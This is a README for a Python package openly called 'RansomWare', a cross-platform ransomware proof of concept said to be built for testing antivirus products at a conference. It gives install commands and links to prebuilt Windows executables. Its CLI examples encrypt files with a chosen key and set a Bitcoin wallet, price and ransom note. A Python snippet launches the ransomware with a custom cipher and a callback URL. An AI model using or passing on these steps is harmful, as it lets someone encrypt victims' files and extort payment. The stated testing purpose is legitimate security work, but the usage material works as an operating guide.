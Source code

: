 ![RansomWare Logo](https://mauricelambert.github.io/info/python/security/RansomWare_small.png "RansomWare logo")

# RansomWare

## Description

This package implements a cross platform RansomWare.

> Don't use this ransomware POC for illegal purposes!
>> This project is developed to test and demonstrate the behavior of antivirus against unknown malware in the context of a specific cybersecurity conference.
>> This malware is basic, it doesn't try to bypass any antivirus, EPP or EDR protection.
>> It can't be used for red team or pentest as it will get stuck, so don't try or you'll waste your time.

## Requirements

This package require:

 - python3
 - python3 Standard Library

## Installation

### Pip

```bash
python3 -m pip install RansomWare
```

### Git

```bash
git clone "https://github.com/mauricelambert/RansomWare.git"
cd "RansomWare"
python3 -m pip install .
```

### Wget

```bash
wget https://github.com/mauricelambert/RansomWare/archive/refs/heads/main.zip
unzip main.zip
cd RansomWare-main
python3 -m pip install .
```

### cURL

```bash
curl -O https://github.com/mauricelambert/RansomWare/archive/refs/heads/main.zip
unzip main.zip
cd RansomWare-main
python3 -m pip install .
```

## Usages

## Command line

```bash
RansomWare              # Using CLI package executable
python3 -m RansomWare   # Using python module
python3 RansomWare.pyz  # Using python executable
RansomWare.exe          # Using python Windows executable

RansomWare aaa # File encryption using "aaa" as key
RansomWare -t 56 aaa # File encryption using "aaa" as key and sleep 56 secondes between file.
RansomWare -e 64 YWFh # File encryption using "aaa" as key (encoded with base64)
RansomWare -w "3LU8wRu4ZnXP4UM8Yo6kkTiGHM9BubgyiG" aaa # File encryption using "aaa" as key and using the wallet: "3LU8wRu4ZnXP4UM8Yo6kkTiGHM9BubgyiG" for ransomnote
RansomWare -c BitCoin aaa # File encryption using "aaa" as key and using the cryptocurrency: "BitCoin" for ransomnote
RansomWare -p 0.01 aaa # File encryption using "aaa" as key and using "0.01" as price
```

### Python script

```python
from RansomWare import RansomWare

def get_IV(filename: str) -> bytes:
	"""
    This function return my weak custom IV.
    """

	return filename.encode()

def crypt(key: bytes, data:bytes) -> bytes:
	"""
    This function encrypts data with key.
    """

	return bytes([(car + key[i % len(key)]) % 256 for i, car in enumerate(data)])

RansomWare(
    b"aaa",
    url="http://127.0.0.1:8000/",
    wallet="3LU8wRu4ZnXP4UM8Yo6kkTiGHM9BubgyiG",
    crypto="BitCoin",
    price="0.01",
    interval_time=56,
    encrypt=crypt,
    get_iv=get_IV,
).start()
```

## Links

 - [Pypi](https://pypi.org/project/RansomWare/)
 - [Github](https://github.com/mauricelambert/RansomWare/)
 - [Documentation](https://mauricelambert.github.io/info/python/security/RansomWare.html)
 - [Python executable](https://mauricelambert.github.io/info/python/security/RansomWare.pyz)
 - [Python Windows executable](https://mauricelambert.github.io/info/python/security/RansomWare.exe)
 - [Github - Python Windows compiled executable](https://github.com/mauricelambert/RansomWare/releases/latest/)
 - [SourceForce - Python Windows compiled executable](https://sourceforge.net/projects/RansomWare/files/)

## Licence

Licensed under the [GPL, version 3](https://www.gnu.org/licenses/).
